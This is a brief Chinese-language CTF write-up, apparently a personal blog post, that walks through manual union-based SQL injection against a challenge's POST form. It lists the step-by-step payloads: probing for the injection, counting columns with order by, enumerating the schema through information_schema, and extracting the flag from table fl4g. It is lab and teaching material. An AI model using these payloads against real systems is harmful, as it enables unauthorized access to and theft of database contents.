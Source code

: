 ```yaml
---
title: SQLI_CTF
toc: true
date: 2021-04-25 17:12:07
tags: CTF
categories: [100 Cyber security, 120 CTF, 121 Web ]
---
```


### 手注流程

1. 页面里有一个POST表单，测试会不会有注入漏洞
    POST里
    id=1'和id=1'#
    id=1' and 1=2#和id=1' and 1=1#
    前一个不回显后一个回显，那么说明存在注入。
1. 判断字段数：有四个字段
    id=1' order by 4#
1. 判断回显位：
    id=1' union select 1,2,3,4# 有正常回显
    id=1' union select 1,2,3# 无回显，证明该数据库在第四位，查询该数据库名

1. id=0' union select 1,2,3,database()# 查到表名为skctf，继续查数据表（tables）名
1. id=0' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema='skctf'#
1. id=0' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name='fl4g'#
1. 查询数据：
    id=0' union select 1,2,3,skctf_flag from fl4g#
    得到flag。
